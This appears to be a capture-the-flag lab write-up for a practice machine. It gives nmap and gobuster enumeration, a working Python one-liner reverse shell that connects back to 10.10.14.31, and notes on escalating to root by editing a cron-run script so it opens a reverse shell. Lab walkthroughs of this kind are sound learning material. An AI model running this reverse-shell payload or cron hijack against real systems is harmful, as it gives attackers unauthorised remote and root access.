










## nmap
nmap -sC -sV 10.10.10.68
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-19 18:34 EST
Nmap scan report for 10.10.10.68
Host is up (0.28s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache/2.4.18 (Ubuntu)
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 346.69 seconds
```

## gobuster
```
/root/go/bin/gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 50
```







## reverse shell

https://highon.coffee/blog/reverse-shell-cheat-sheet/  
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

I used this python command to get a reverse shell 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```



## privEsc

during enumeration I found /scripts directory whose owner was scriptmanager 



test.txt is owned by root and to write to it test.py must be run as root  
from the output of "ls -al" we can see the test.txt was updated a minute ago  
so test.py might be running as a root cronjob



as test.py is owned by scriptmanager and ran by root we can modify it get reverse shell with the same payload used for www-data reverse shell  
to run nano, we can use "export TERM=xterm" and for auto-completion we can use "stty raw -echo && fg"







